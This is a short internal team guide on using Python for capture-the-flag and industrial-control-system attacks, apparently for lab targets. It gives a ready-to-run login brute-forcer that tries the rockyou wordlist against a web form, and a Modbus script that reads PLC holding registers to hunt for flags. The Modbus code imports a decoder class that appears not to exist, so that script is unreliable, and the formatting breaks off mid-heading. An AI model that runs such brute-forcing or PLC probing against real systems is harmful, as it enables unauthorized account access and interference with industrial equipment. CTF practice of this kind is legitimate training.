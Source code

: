 # Python for ICS & CTF Automation

**Authored by: Hex**

Team,

Python is our primary tool for custom interactions, automation, and protocol manipulation. When we need to speak a language the target understands—be it HTTP POST requests or Modbus function codes—we use Python. These libraries and templates are our starting point for building custom attack tools.

---

## Essential Libraries

Make sure these are installed on your attacker machine.

*   **`requests`**: The go-to library for all web interactions. We'll use it for scripting logins, testing for vulnerabilities, and interacting with web APIs.
    *   `pip install requests`
*   **`pwntools`**: A CTF framework and exploit development library. While its main strength is binary exploitation, it's excellent for scripting raw network connections and is generally useful.
    *   `pip install pwntools`
*   **`pymodbus`**: The definitive library for scripting Modbus communications. We will use this to directly read from and write to PLCs.
    *   `pip install pymodbus`

---

## Code Templates

### Simple Web Login Bruteforcer

Use this script when you find a login form and have a potential username and a password list. Modify the `url`, `username`, and `data` payload to match the target.

```python
# A simple login bruteforcer using the requests library.
import requests

# --- CONFIGURATION ---
url = "http://10.10.X.X/login.php"  # Target login page URL
username = "admin"  # The username to use
password_file = "/usr/share/wordlists/rockyou.txt" # Path to your password list
login_failed_string = "Invalid login credentials" # String that appears on a FAILED login attempt

def bruteforce_login():
    """Loops through a password list and tries to log in."""
    try:
        with open(password_file, 'r') as p_list:
            for password in p_list:
                password = password.strip() # Remove newline characters
                print(f"[*] Trying password: {password}")

                # This dictionary will be sent as the POST data.
                # Inspect the login form in Burp Suite to get the correct parameter names (e.g., 'uname', 'pass').
                data_payload = {
                    'username': username,
                    'password': password,
                    'Login': 'Login' # This might be a required button value
                }

                # Send the POST request
                response = requests.post(url, data=data_payload)

                # Check if the login failed string is NOT in the response
                if login_failed_string not in response.text:
                    print(f"[+] SUCCESS! Password found: {password}")
                    return
    except IOError:
        print(f"[-] Error: Could not find the password file at {password_file}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

    print("[!] Bruteforce complete. Password not found.")

if __name__ == "__main__":
    bruteforce_login()

Modbus Register 

This script is invaluable for finding hidden data in a PLC's memory. Flags in ICS CTFs are often stored as ASCII strings in a sequence of Holding Registers. This script connects to a Modbus device and attempts to read and decode values from its registers.

# A script to scan and decode Modbus holding registers using pymodbus.
from pymodbus.client import ModbusTcpClient
from pymodbus.utilities import ModbusRegisterDecoder
from pymodbus.constants import Endian

# --- CONFIGURATION ---
PLC_IP = "10.10.X.X"  # IP address of the PLC or Modbus gateway
PLC_PORT = 502         # Standard Modbus/TCP port
UNIT_ID = 1            # Modbus Unit ID (usually 1)
START_REGISTER = 0     # Register address to start scanning from
REGISTER_COUNT = 200   # How many registers to scan

def scan_modbus_registers():
    """Connects to a PLC and reads holding registers, attempting to decode them."""
    print(f"[*] Connecting to Modbus device at {PLC_IP}:{PLC_PORT}")
    client = ModbusTcpClient(PLC_IP, port=PLC_PORT)
    client.connect()

    print(f"[*] Reading {REGISTER_COUNT} holding registers starting from address {START_REGISTER}...")
    try:
        # Request to read the specified range of holding registers
        response = client.read_holding_registers(START_REGISTER, REGISTER_COUNT, slave=UNIT_ID)

        if response.isError():
            print(f"[-] Modbus Error: {response}")
        else:
            # A 16-bit register can be decoded. The decoder helps interpret the raw values.
            # We will try to decode it as a string. Flags are often ASCII.
            decoder = ModbusRegisterDecoder.fromRegisters(response.registers, byteorder=Endian.Big, wordorder=Endian.Little)
            
            # This decodes the entire block of registers as a string.
            # Look for readable text which might contain a flag.
            decoded_string = decoder.decode_string(REGISTER_COUNT * 2) # *2 because 1 register = 2 bytes
            print(f"[+] Decoded String (potential flag): {decoded_string}")

            # You can also loop through each register individually if needed
            print("\n--- Individual Register Values ---")
            for i in range(REGISTER_COUNT):
                address = START_REGISTER + i
                value = response.getRegister(i)
                print(f"  Register[{address}] = {value}")

    except Exception as e:
        print(f"[-] An error occurred: {e}")
    finally:
        # Always close the connection
        client.close()
        print("[*] Connection closed.")


if __name__ == "__main__":
    scan_modbus_registers()



